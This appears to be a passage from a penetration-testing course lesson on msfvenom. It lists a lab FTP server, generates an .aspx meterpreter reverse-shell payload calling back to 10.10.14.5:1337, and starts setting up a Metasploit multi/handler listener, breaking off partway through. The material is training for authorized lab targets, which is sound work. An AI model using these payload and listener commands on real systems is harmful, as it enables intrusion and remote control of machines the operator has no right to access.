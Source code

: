 ```shell-session
230 User logged in.
Remote system type is Windows_NT.


ftp> ls

200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

Noticing the aspnet_client, we realize that the box will be able to run `.aspx` reverse shells. Luckily for us, `msfvenom` can do just that without any issue.

#### Generating Payload

  Introduction to MSFVenom

```shell-session
codenvibes@htb[/htb]$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2819 bytes
```

  Introduction to MSFVenom

```shell-session
codenvibes@htb[/htb]$ ls

Desktop  Documents  Downloads  my_data  Postman  PycharmProjects  reverse_shell.aspx  Templates
```

Now, we only need to navigate to `http://10.10.10.5/reverse_shell.aspx`, and it will trigger the `.aspx` payload. Before we do that, however, we should start a listener on msfconsole so that the reverse connection request gets caught inside it.

#### MSF - Setting Up Multi/Handler

  Introduction to MSFVenom

```shell-session
codenvibes@htb[/htb]$ msfconsole -q 

msf6 > use multi/handler
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST 10.10.14.5
```